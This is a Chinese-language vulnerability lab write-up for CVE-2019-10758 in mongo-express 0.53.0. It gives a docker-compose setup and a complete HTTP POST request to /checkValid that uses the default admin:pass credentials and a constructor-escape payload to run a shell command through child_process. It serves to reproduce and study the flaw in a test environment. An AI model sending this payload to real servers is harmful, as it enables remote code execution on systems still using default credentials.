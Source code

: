 # mongo-express 远程代码执行漏洞（CVE-2019-10758）

mongo-express是一款mongodb的第三方Web界面，使用node和express开发。如果攻击者可以成功登录，或者目标服务器没有修改默认的账号密码`admin:pass`，则可以执行任意node.js代码。

## 漏洞环境

执行如下命令启动一个0.53.0版本的mongo-express：

```bash
docker-compose up -d
```

环境启动后，访问`http://your-ip:8081`即可查看到Web页面。

## 漏洞复现

使用默认的基础认证账号密码`admin:pass`，发送如下数据包，即可执行代码`this.constructor.constructor("return process")().mainModule.require("child_process").execSync("touch /tmp/success")`：

```
POST /checkValid HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Authorization: Basic YWRtaW46cGFzcw==
Content-Type: application/x-www-form-urlencoded
Content-Length: 124

document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("touch /tmp/success")
```
